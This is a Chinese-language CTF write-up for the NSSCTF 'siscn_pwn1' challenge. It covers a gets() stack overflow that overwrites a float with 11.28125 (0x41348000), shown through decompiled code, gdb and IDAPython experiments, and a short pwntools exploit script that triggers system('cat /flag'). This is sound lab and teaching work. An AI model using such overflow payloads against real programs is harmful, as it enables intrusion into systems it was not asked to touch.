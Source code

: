 # siscn_pwn1(栈迁移+float数据格式)

> 看一下题发现应该是比较简单的 由于有个gets函数 所以我有点想直接覆盖数据为11.28125

```c
int func()
{
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    return system("cat /flag");
  else
    return puts("Its value should be 11.28125");
}
```

- 保护

```shell
[*] '/home/agentalbrazee/work/ctf/pwn/cp/nssctf/pwn1/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

## 实验float的存储数据

> 为了实验一下 我们手搓一个程序 gdb调试一下

```c
#include<stdio.h>
int main()
{
    float a;
    a = 11.28125;
    printf("The value of a is %f\n",a);
}
```

- 获取结果:

  ```shell
  ► 0x5555555551c7 <main+62>    call   __isoc99_scanf@plt                <__isoc99_scanf@plt>
          format: 0x555555556004 ◂— 0x7620656854006625 /* '%f' */
          vararg: 0x7fffffffdee4 ◂— 0xc7df9b0041348000
  
  ```

- 那么我们就知道了 这里的存储数据为0xc7df9b0041348000
- 但是好像显然不太对所以我们这里干脆用idapython在ida里面提取出来

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  float v4; // [rsp+2Ch] [rbp-4h] BYREF

  _main(argc, argv, envp);
  v4 = 11.28125;
  scanf("%f", &v4);
  printf("The value of a is %f\n", v4);
  return 0;
}
```

- 然后在scanf里面下idapython脚本:

  ```python
  import idc
  print("rax",hex(idc.get_reg_value("rax")))
  ```

- 获取数据:rax 0x61fe1c 好像还是不太对

- (太笨了)最后我们直接在程序源代码重找cmp的部分找到了 

  ```shell
  .rodata:00000000004007F4 00 80 34 41                   dword_4007F4 dd 41348000h  
  ```

  

## 尝试覆盖

```python
from pwn import *
# r = remote("node5.anna.nssctf.cn",28355)
r = gdb.debug("./pwn1","b main")
print(r.recvuntil(b"Let's guess the number.\n"))
payload = b"a"*(0x30 - 4) +p32(0x41348000)
r.sendline(payload)
r.interactive()
```

- 最后成功 
